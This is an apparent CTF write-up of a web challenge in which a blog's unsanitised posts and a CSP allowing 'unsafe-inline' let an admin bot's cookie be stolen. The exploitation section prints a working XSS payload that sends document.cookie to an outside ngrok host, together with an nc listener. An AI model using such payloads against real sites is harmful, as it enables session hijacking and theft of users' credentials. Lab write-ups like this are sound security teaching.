










# Web BlogPost



## Summary

Blogpost is a easy web challenge that one of the challenges that took most of my time in the CTF. Finding the foothold was an interesting process but this challenge has reminded me not to create a tunnel vision when it comes to hacking and ensuring that I check all files to have a good understanding what the challenge is. (I did not realize about the bot.js and basically had troubles stealing the cookie itself)

## Table of Contents
1. [Setting up environment](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
2. [Enumeration](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
3. [Foothold](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
4. [Exploitation](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
	1.[CSP]
	2.[Using NGROK]

## Setting up the environment



The challenge developers were kind enough to create the environment for individuals to run on their local machine. To create the environment itself, you should have docker installed in your machine. Just a little google can help you (depending on your machine) but here was how I installed it; [Link](https://www.kali.org/docs/containers/installing-docker-on-kali/)

## Enumeration

Playing around with the website and looking at the sourcecode, we have a rough understand of what the website has and the general flow for normal users; 

```
Goes to Homepage
Login
	If no user in website
		make user
	Go to Blog, server takes content from blog
	make own post etc
```

Going through the sourcecodes itself, we also understand that there'll be a bot that actively crawls through the blogpost with the required cookie we have to steal in bot.js

```javascript
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
````

## Getting the foothold




Looking through the sourcecode, there is no form of sanitization when it comes to posting. With that in mind, let's try it with a simple XSS. If it works, there'll be our foothole for this challenge.

```javascript
<script>console.log("test")</script>
```





And it does work! Now with our foothold, what can we do with it?

## Exploitation
During our enumeration, we understand that'll be a bot the crawls through the blog site itself. Hence our objective is to use XSS to steal the "cookie" of the admin which will hold our flag. I made a simple XSS payload that'll force the website to send their user cookie to my server as shown below;

- Payload [^1]
```javascript
<script>
document.write('');
</script> 
//Note that the ip address should be your ip address that you want to take the cookies
```


- On Our machine (to receive the cookies)
```bash
python -m SimpleHTTPServer
```

However, we encountered the next obstacle in the challenge. The challenge is equipped with content security policy (CSP) with doesn't allow us to steal the cookie as shown below.



### What is CSP? ~~and why is it a pain~~

> Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution. [^2]

It is a good mitigation practise but with every mitigation, there'll be ways where developers configure such mitigations wrongly. We can verify their policy (found in /src/app/index.js) using [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  



Hence with the mindset of "hey they probably misconfigured something", we can see that they allowed 'unsafe-inline' which can be our proper foothold for this obstacle. Implementing it in CSP is effectively disabling the important part of CSP. You are allowing javascript to run in the XSS. [^3] Hence with that in mind, let us find a payload to bypass it.

```javascript
"/><script>console.log("bypass works");</script>
```[^4]




It does work, now lets steal the bot's cookie

### Using NGROK
One of the problems which I faced was getting the cookie itself. For some reason, I was only receiving my cookie rather than the bot's cookie. After thinkering around and accidentally solving Blogpost 2 (woops), I learn about [ngrok](https://ngrok.com/). The idea is being able to push localhost apps to the internet with a hostname easily. In this case, I'll be using it to receive the cookie instantly. Thanks John Hammond for the idea as well. [^5]

Setting up ngrok, which will give us our forward hostname
```
ngrok http 9000
```



Setting up listening on localhost
```
nc -nlvp 9000
```
Payload for our shenanigans
```
"/><script>document.location='https://16ba-118-189-213-163.ap.ngrok.io/?c='+document.cookie;</script>
```

This will give us the cookie which is the aim of the challenge! 




[^1]:[Simple XSS Cookie Stealer](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)
[^2]:[What is CSP?](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
[^3]:[unsafe-inline is dumb](https://csper.io/blog/no-more-unsafe-inline)
[^4]:[unsafe-inline bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-inline)
[^5]:[John's Video on CSP](https://www.youtube.com/watch?v=uU_tvQPCBUo)